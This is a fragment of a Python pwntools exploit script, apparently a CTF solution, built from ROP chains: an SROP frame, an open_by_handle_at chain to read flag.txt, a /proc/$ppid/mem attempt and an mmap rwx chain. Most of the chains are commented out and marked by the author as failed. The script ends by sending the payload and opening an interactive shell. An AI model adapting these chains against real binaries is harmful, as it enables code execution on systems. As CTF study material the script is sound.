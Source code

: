 ```python
# frame.rsi = CODE_BASE + 0x2031e0 + 2
# frame.rdx = 0
# frame.r10 = 0
# frame.r8 = 0
# frame.rip = CODE_BASE + 0x2254
#
# payload += str(frame)



#### open_by_handel_at, but this use open(), not bypass #### => maybe...?
# payload += p64(CODE_BASE + 0x225f) # pop rdi; ret;
# payload += p64(0) # 0
# payload += p64(CODE_BASE + 0x2261) # pop rsi; ret;
# payload += p64(CODE_BASE + 0x203120 + 2) # flag.txt 
# payload += p64(CODE_BASE + 0x2265) # pop rdx; ret;
# payload += p64(CODE_BASE + 0x203120 + 0x30) # 0
# payload += p64(CODE_BASE + 0x2267) # pop rax; ret;
# payload += p64(322)	# open_by_handle_at
# payload += p64(CODE_BASE + 0x2254) # syscall
# payload += p64(CODE_BASE + 0xc00)



#### get_ppid() -> open('/proc/$ppid/mem'), but no rax control #### => nooop!
# payload += p64(CODE_BASE + 0x2267) # pop rax; ret;
# payload += p64(110)	# 
# payload += p64(CODE_BASE + 0x2254) # syscall
# ??
# payload += p64(CODE_BASE + 0x225f) # pop rdi; ret;
# payload += p64(CODE_BASE + 0x203120 + 2) # receiver's name
# payload += p64(CODE_BASE + 0x2261) # pop rsi; ret;
# payload += p64(0x700) # rwx
# payload += p64(CODE_BASE + 0x2267) # pop rax; ret;
# payload += p64(2)	# 
# payload += p64(CODE_BASE + 0x2254) # syscall



#### mmap(0x40000, 0x1000, rwx) -> jmp that #### => noop!
# payload += p64(CODE_BASE + 0x225f) # pop rdi; ret;
# payload += p64(0x40000) # 0
# payload += p64(CODE_BASE + 0x2261) # pop rsi; ret;
# payload += p64(0x1000) 
# payload += p64(CODE_BASE + 0x2265) # pop rdx; ret;
# payload += p64(0x7) # 0
# payload += p64(CODE_BASE + 0x2267) # pop rax; ret;
# payload += p64(0x8) # sys_execve
# payload += p64(CODE_BASE + 0x2251) # inc rax; syscall 9
# payload += 'AAAAAAAA'

order(payload)

r.sendlineafter('Enter your address: \n', '1')
r.sendlineafter('A letter for her/him:\n', '1')

r.interactive()
```
